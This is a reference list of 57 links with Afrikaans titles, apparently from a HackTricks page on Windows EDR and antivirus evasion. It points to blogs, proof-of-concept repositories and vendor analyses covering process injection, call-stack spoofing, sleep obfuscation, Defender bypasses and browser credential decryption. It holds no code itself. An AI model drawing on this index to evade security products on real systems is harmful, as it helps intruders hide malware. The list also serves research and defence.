- [1] [Gevorderde ontduikingstegnieke: presisie-module-stomping](https://medium.com/@toneillcodes/advanced-evasion-tradecraft-precision-module-stomping-b51feb0978fe)
- [2] [toneillcodes/windows-process-injection](https://github.com/toneillcodes/windows-process-injection)
- [3] [Crystal Kit – blog](https://rastamouse.me/crystal-kit/)
- [4] [Crystal-Kit – GitHub](https://github.com/rasta-mouse/Crystal-Kit)
- [5] [Elastic – Oproepstapels: geen gratis passe meer vir malware nie](https://www.elastic.co/security-labs/call-stacks-no-more-free-passes-for-malware)
- [6] [Crystal Palace – dokumentasie](https://tradecraftgarden.org/docs.html)
- [7] [simplehook – voorbeeld](https://tradecraftgarden.org/simplehook.html)
- [8] [stackcutting – voorbeeld](https://tradecraftgarden.org/stackcutting.html)
- [9] [Draugr – PIC vir vervalsing van oproepstapels](https://github.com/NtDallas/Draugr)
- [10] [Unit42 – Nuwe infeksieketting en ConfuserEx-gebaseerde obfuskasie vir DarkCloud Stealer](https://unit42.paloaltonetworks.com/new-darkcloud-stealer-infection-chain/)
- [11] [Synacktiv – Moet jy jou zero trust vertrou? Omseiling van Zscaler-houdingkontroles](https://www.synacktiv.com/en/publications/should-you-trust-your-zero-trust-bypassing-zscaler-posture-checks.html)
- [12] [Check Point Research – Voor ToolShell: Verkenning van Storm-2603 se vorige lospryswarebedrywighede](https://research.checkpoint.com/2025/before-toolshell-exploring-storm-2603s-previous-ransomware-operations/)
- [13] [Hexacorn – DLL ForwardSideLoading: Misbruik van aangestuurde exports](https://www.hexacorn.com/blog/2025/08/19/dll-forwardsideloading/)
- [14] [Windows 11-inventaris van aangestuurde exports (apis_fwd.txt)](https://hexacorn.com/d/apis_fwd.txt)
- [15] [Microsoft Learn – Soekvolgorde vir dinamiese skakelbiblioteke](https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order)
- [16] [Microsoft Learn – Prosessekuriteit en toegangsregte](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)
- [17] [Microsoft – EKU-verwysing (MS-PPSEC)](https://learn.microsoft.com/openspecs/windows_protocols/ms-ppsec/651a90f3-e1f5-4087-8503-40d804429a88)
- [18] [Sysinternals – Process Monitor](https://learn.microsoft.com/sysinternals/downloads/procmon)
- [19] [CreateProcessAsPPL-lanseerder](https://github.com/2x7EQ13/CreateProcessAsPPL)
- [20] [Zero Salarium – Teenwerking van EDR’s met die ondersteuning van Protected Process Light (PPL)](https://www.zerosalarium.com/2025/08/countering-edrs-with-backing-of-ppl-protection.html)
- [21] [Zero Salarium – Breek die beskermende dop van Windows Defender met die gidsherleidingstegniek](https://www.zerosalarium.com/2025/09/Break-Protective-Shell-Windows-Defender-Folder-Redirect-Technique-Symlink.html)
- [22] [Microsoft – verwysing vir die mklink-opdrag](https://learn.microsoft.com/windows-server/administration/windows-commands/mklink)
- [23] [Check Point Research – Onder die suiwer sluier: Van RAT tot bouer tot kodeerder](https://research.checkpoint.com/2025/under-the-pure-curtain-from-rat-to-builder-to-coder/)
- [24] [Rapid7 – SantaStealer kom stad toe: ’n Nuwe, ambisieuse infostealer](https://www.rapid7.com/blog/post/tr-santastealer-is-coming-to-town-a-new-ambitious-infostealer-advertised-on-underground-forums)
- [25] [ChromElevator – Dekripsie van Chrome App Bound Encryption](https://github.com/xaitax/Chrome-App-Bound-Encryption-Decryption)
- [26] [Check Point Research – GachiLoader: Die bekamping van Node.js-malware met API-nasporing](https://research.checkpoint.com/2025/gachiloader-node-js-malware-with-api-tracing/)
- [27] [Sleeping Beauty: Om Adaptix met Crystal Palace aan die slaap te maak](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty/)
- [28] [SensePost – Vergiftiging van prosesparameters](https://sensepost.com/blog/2026/process-parameter-poisoning/)
- [29] [Orange Cyberdefense – p3-loader](https://github.com/Orange-Cyberdefense/p3-loader)
- [30] [Sleeping Beauty II: CFG, CET en vervalsing van stapels](https://maorsabag.github.io/posts/adaptix-stealthpalace/sleeping-beauty-ii)
- [31] [Ekko-slaapobfuskasie](https://github.com/Cracked5pider/Ekko)
- [32] [SysWhispers4 – GitHub](https://github.com/JoasASantos/SysWhispers4)
- [33] [blog.xpnsec.com - Verberging van jou Dotnet Etw](https://blog.xpnsec.com/hiding-your-dotnet-etw)
- [34] [repnz/etw-providers-docs](https://github.com/repnz/etw-providers-docs)
- [35] [trustedsec.com - Misbruik van Chrome Remote Desktop in Red Team-bedrywighede: ’n Praktiese gids](https://trustedsec.com/blog/abusing-chrome-remote-desktop-on-red-team-operations-a-practical-guide)
- [36] [Check Point Research - BTR Reforged: Gebruik van Defender se Remediation Driver as ’n primitief vir kernbewerkings](https://research.checkpoint.com/2026/btr-reforged-weaponizing-defenders-remediation-driver-as-a-kernel-operation-primitive/)
- [37] [Dump-GUY - BTR_CLI](https://github.com/Dump-GUY/BTR_CLI)
- [38] [MDSec Function Peekaboo-begeleidende kode](https://github.com/mdsecactivebreach/functionpeekaboo)
- [39] [MDSec - Function Peekaboo: Skep van selfmaskerende funksies met LLVM](https://mdsec.co.uk/2025/10/function-peekaboo-crafting-self-masking-functions-using-llvm/)
- [40] [Microsoft Learn - VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)
- [41] [TwoSevenOneT - InjectSetConsole-bronkode](https://github.com/TwoSevenOneT/InjectSetConsole)
- [42] [Microsoft Learn - CreatePipe-funksie](https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-createpipe)
- [43] [Microsoft Learn - Skep van ’n kinderproses met herleide invoer en afvoer](https://learn.microsoft.com/en-us/windows/win32/procthread/creating-a-child-process-with-redirected-input-and-output)
- [44] [Praetorian - GhostPack Necromancy: Herbou van C#-nutsmiddels met WasmForge](https://praetorian.com/blog/wasmforge-csharp-ghostpack-edr-evasion)
- [45] [WasmForge - Samestelling van C# / .NET-projekte](https://github.com/praetorian-inc/wasmforge/blob/main/docs/CSHARP.md)
- [46] [DLLParty-bewys-van-konsep en bronkode](https://github.com/epersic/DLLParty)
- [47] [DLLParty — Misbruik van thread pool-internals vir shellcodeless DLL-inspuiting](https://medium.com/@persic.eno/dllparty-abusing-thread-pool-internals-for-shellcodeless-dll-injection-7c84106f7745)
- [48] [EMBER2024-maatstafdatalêer en thrember-nutsmiddels](https://github.com/FutureComputing4AI/EMBER2024)
- [49] [Gebruik van EMBER2024 om Red Team-implants te evalueer](https://mez0.cc/posts/evaluating-implants-with-ember/)
- [50] [MSec Operations – Ontduiking van masjienleer-gebaseerde opsporing](https://msecops.de/blog/posts/ml-evasion/)
- [51] [Kaspersky Securelist – NetamLoader, ’n XAML-gebaseerde .NET-laairaamwerk](https://securelist.com/netamloader/121676)
- [52] [Microsoft Learn – AMSI_RESULT-opnoeming](https://learn.microsoft.com/en-us/windows/win32/api/amsi/ne-amsi-amsi_result)
- [53] [Microsoft Learn – IAntimalware::Scan-metode](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-iantimalware-scan)
- [54] [Zscaler ThreatLabz - Tegniese ontleding van 2CLoader](https://zscaler.com/blogs/security-research/2cloader-new-malware-loader-delivering-vidar-and-remus)
- [55] [Oorsig van tprtdll-Injection en inventaris van exports](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/README.md)
- [56] [Trusted-twin self-injection PoC](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/trustedtwin_self.cpp)
- [57] [Trusted-twin cross-process-inspuiting-PoC](https://github.com/ivancabrera02/tprtdll-Injection/blob/main/trustedtwin_cross.cpp)
{{#include ../banners/hacktricks-training.md}}
